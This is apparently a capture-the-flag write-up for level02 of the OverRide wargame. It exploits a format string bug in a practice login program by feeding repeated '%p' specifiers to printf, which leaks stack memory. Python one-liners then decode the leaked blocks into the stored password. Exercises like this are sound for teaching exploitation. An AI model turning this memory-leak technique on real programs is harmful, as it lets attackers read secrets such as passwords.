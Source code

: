 # level 02

For the first time we have a x64 program that reads the password file and then check the user input against it to give a shell.

It also calls printf with a format string the user controls.
```shell
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: rewrite it in %p %d
--[ Password: javascript
*****************************************
rewrite it in 0x7fffffffe4d0 0 does not have access!
```

Let's check what the value of our format string is in hex
```shell
level02@OverRide:~$ python -c 'print "%p|".encode("hex")'
25707c
```

Let's now scan the memory to find it
```shell
level02@OverRide:~$ ./level02 < <(python -c 'print "%p|"*30')
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: --[ Password: *****************************************
0x7fffffffe4d0|(nil)|(nil)|0x2a2a2a2a2a2a2a2a|0x2a2a2a2a2a2a2a2a|0x7fffffffe6c8|0x1f7ff9a08|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|0x100000000|(nil)|0x756e505234376848|0x45414a3561733951|0x377a7143574e6758|0x354a35686e475873|0x48336750664b394d|(nil)|0x70257c70257c7025|0x257c70257c70257c|0x7c70257c70257c70| does not have access!
```

We can see that it's the 28th parameter to printf, more interesting looking at the position of the variables in the stack, the password buffer should come right before it.
The trailing 0 confirms our suspicions.

Let's convert these blocks to ascii, while keeping in mind to account for the endianness
```
756e505234376848|45414a3561733951|377a7143574e6758|354a35686e475873|48336750664b394d
```

```shell
level02@OverRide:~$ python -c 'print "".join([i.decode("hex")[::-1] for i in "756e505234376848|45414a3561733951|377a7143574e6758|354a35686e475873|48336750664b394d".split("|")])'
[censored]

python -c 'import struct;print "".join([struct.pack("<Q", x) for x in [0x756e505234376848, 0x45414a3561733951, 0x377a7143574e6758, 0x354a35686e475873, 0x48336750664b394d]])'

```
Nice!
